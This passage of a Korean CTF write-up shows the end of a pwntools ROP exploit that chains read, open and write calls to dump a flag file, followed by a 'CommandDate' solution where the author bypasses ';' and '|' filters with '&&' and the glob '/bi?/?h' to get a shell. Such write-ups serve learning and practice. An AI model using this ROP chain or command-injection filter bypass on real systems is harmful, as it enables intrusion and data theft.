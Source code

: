 ```
	bufsize = bufsize[bufsize.find("0x"):]
	bufsize = int(bufsize[:bufsize.find("]")],16)
	return prdi,prsir15,bufsize

prdi,prsir15,bufsize = binary_make()

e = ELF("./rop")
payload = "a"*(bufsize)+"a"*8
payload += p64(prdi) + p64(0) + p64(prsir15)+p64(e.bss())+p64(0)+p64(e.plt['read'])
payload += p64(prdi)+p64(e.bss())+p64(prsir15)+p64(0)+p64(0) +p64(e.plt['open'])
payload += p64(prdi)+p64(3)+p64(prsir15)+p64(e.bss()+8)+p64(0)+p64(e.plt['read'])
payload += p64(prdi)+p64(1)+p64(e.plt['write'])

p.sendline(payload)
sleep(0.1)
p.sendline("/flag\x00")

print p.recvuntil("}")
```

FLAG : hello R0P W0rld !!! ~.~ Bye R0P W0rld !!!  :> No Pwn No Fun????

## CommandDate - Pwnable 100pt

```
====== Date Commander with Options ======

$ date -
```

주어진 nc서버로 접속하게되면 이런 화면이 뜨게 된다. 
저 화면을 보자마자 딱 떠오른건 이 문제는 shell cmd injection이고 
date명령어를 다른 명령어와 이용해서 flag를 얻어야 할 것 같았다.
명령어를 연결해서 사용할 수 있게 해주는 ';' 이나 '|' 는 막혀있고, '&'를 쓸 수 있었다. 

'&'는 ';' 과 '|' 와 다르게 앞 명령어의 실행결과가 오류가 없어야 했다.
따라서 date의 -u라는 옵션을 찾아냈고, 나머지 필터링들을 우회해서 
쉘을 얻은 뒤 flag를 읽었다.

```
====== Date Commander with Options ======

$ date -u && /bi?/?h

Sat Sep  1 10:44:40 UTC 2018
ls
CommandDate
flag
```

FLAG : AHAH AMPERS4ND C0MMAND INJECTION IS NOT COMM0N

## shoot - Crypto 100pt
